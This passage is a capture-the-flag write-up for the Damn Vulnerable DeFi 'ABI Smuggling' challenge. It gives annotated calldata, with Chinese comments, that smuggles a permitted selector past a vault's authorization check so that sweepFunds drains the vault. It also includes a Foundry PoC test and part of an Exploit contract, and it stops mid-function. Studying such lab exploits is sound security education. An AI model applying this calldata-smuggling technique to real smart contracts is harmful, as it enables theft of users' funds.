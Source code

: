 ```
// execute selector
0x1cff79cd
// vault.address （第一個 32 字節）
0000000000000000000000001240fa2a84dd9157a0e76b5cfe98b1d52268b264
// offset -> 這個偏移量指向 actionData 在 calldata 中的起始位置。0x80 是 128 字節 （第二個 32 字節）
0000000000000000000000000000000000000000000000000000000000000080
// 這個部分沒有實際用途，通常用來填充固定長度的位置 （第三個 32 字節）
0000000000000000000000000000000000000000000000000000000000000000
// withdraw() 繞過檢查 （第四個 32 字節）
**d9caed12**00000000000000000000000000000000000000000000000000000000
// 這表示 actionData 的總長度是 68 字節（0x44 為十六進制的 68） actionData ( 4 + 32 + 32)
0000000000000000000000000000000000000000000000000000000000000044
// sweepFunds calldata
85fb709d00000000000000000000000073030b99950fb19c6a813465e58a0bca5487fbea0000000000000000000000008ad159a275aee56fb2334dbb69036e9c7bacee9b
```

[POC](./damn-vulnerable-defi/test/abi-smuggling/ABISmuggling.t.sol) :
```
    function test_abiSmuggling() public checkSolvedByPlayer {
        Exploit exploit = new Exploit(address(vault),address(token),recovery);
        bytes memory payload = exploit.executeExploit();
        address(vault).call(payload);
    }

contract Exploit {
    SelfAuthorizedVault public vault;
    IERC20 public token;
    address public player;
    address public recovery;

    // Event declarations for logging
    event LogExecuteSelector(bytes executeSelector);
    event LogTargetAddress(bytes target);
    event LogDataOffset(bytes dataOffset);
    event LogEmptyData(bytes emptyData);
    event LogWithdrawSelectorPadded(bytes withdrawSelectorPadded);
    event LogActionDataLength(uint actionDataLength);
    event LogSweepFundsCalldata(bytes sweepFundsCalldata);
    event LogCalldataPayload(bytes calldataPayload);

    constructor(address _vault, address _token, address _recovery) {
        vault = SelfAuthorizedVault(_vault);
        token = IERC20(_token);
        recovery = _recovery;
        player = msg.sender;
    }

    function executeExploit() external returns (bytes memory) {
        require(msg.sender == player, "Only player can execute exploit");

        // `execute()` function selector
        bytes4 executeSelector = vault.execute.selector;

        // Construct the target contract address, which is the vault address, padded to 32 bytes
        bytes memory target = abi.encodePacked(bytes12(0), address(vault));

        // Construct the calldata start location offset
        bytes memory dataOffset = abi.encodePacked(uint256(0x80)); // Offset for the start of the action data

        // Construct the empty data filler (32 bytes of zeros)
        bytes memory emptyData = abi.encodePacked(uint256(0));

```